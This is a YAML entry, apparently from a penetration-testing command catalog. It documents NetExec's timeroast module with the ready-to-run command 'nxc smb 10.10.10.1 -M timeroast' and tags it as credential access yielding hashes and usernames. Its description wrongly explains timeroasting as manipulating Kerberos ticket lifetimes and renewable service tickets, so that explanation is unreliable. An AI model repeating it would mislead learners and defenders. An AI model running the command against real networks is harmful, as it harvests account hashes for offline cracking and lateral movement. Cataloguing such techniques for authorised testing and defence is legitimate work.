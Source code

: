 ```yaml
---
description: |
  NetExec (formerly CrackMapExec) performs a Timeroasting attack via the SMB service.
  This command targets the remote Windows host and abuses the Kerberos protocol by 
  manipulating ticket lifetimes or requesting renewable service tickets. 
  It can help attackers obtain long-lived Kerberos tickets for offline cracking 
  or later lateral movement.

  Command Reference:

  	Target IP: 10.10.10.1
  	Module: timeroast

command: |
  nxc smb 10.10.10.1 -M timeroast
items:
  - Hash
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Credential Access
  - Timeroasting
references:
  - https://github.com/Pennyw0rth/NetExec
  - https://cybersecurity.bureauveritas.com/blog/timeroasting-attacking-trust-accounts-in-active-directory
---
```

